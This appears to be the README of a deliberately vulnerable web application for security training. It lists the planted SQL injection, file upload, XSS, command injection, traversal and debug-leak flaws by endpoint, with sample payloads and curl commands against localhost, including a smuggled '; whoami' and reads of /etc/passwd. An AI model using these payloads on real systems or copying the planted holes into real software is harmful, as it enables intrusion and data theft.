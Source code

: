 # Intentional Vulnerabilities - FOR TESTING ONLY

⚠️ **WARNING**: This application contains intentional security vulnerabilities for educational and testing purposes. NEVER deploy to production.

## Vulnerability List

### 1. SQL Injection (CWE-89)
- **Endpoint**: `GET /api/search-vuln`
- **Payload**: `' OR 1=1 --`
- **Impact**: Database compromise

### 2. File Upload Vulnerabilities (CWE-434)
- **Endpoint**: `POST /api/upload`
- **Issues**: No file type validation, path traversal
- **Impact**: Remote code execution

### 3. Cross-Site Scripting (CWE-79)
- **Endpoint**: `GET /api/profile/:username`
- **Impact**: Client-side code execution

### 4. Command Injection (CWE-78)
- **Endpoint**: `POST /api/ping`
- **Payload**: `; cat /etc/passwd`
- **Impact**: Remote command execution

### 5. Directory Traversal (CWE-22)
- **Endpoint**: `GET /api/files/:filename`
- **Payload**: `../../../etc/passwd`
- **Impact**: File system access

### 6. Information Disclosure (CWE-200)
- **Endpoints**: `/api/debug/*`
- **Impact**: Sensitive data exposure

### 7. Vulnerable Dependencies
- **lodash**: 4.17.4 (Prototype Pollution)
- **moment**: 2.19.3 (ReDoS)
- **request**: 2.88.0 (Multiple vulnerabilities)
- **express**: 4.16.0 (Multiple vulnerabilities)

## Testing Commands

```bash
# SQL Injection
curl -H "Authorization: Bearer TOKEN" \
     "http://localhost:8080/api/search-vuln?query=' OR 1=1 --"

# Command Injection  
curl -X POST -H "Authorization: Bearer TOKEN" \
     -H "Content-Type: application/json" \
     -d '{"host":"localhost; whoami"}' \
     http://localhost:8080/api/ping

# Directory Traversal
curl -H "Authorization: Bearer TOKEN" \
     "http://localhost:8080/api/files/..%2F..%2F..%2Fetc%2Fpasswd"

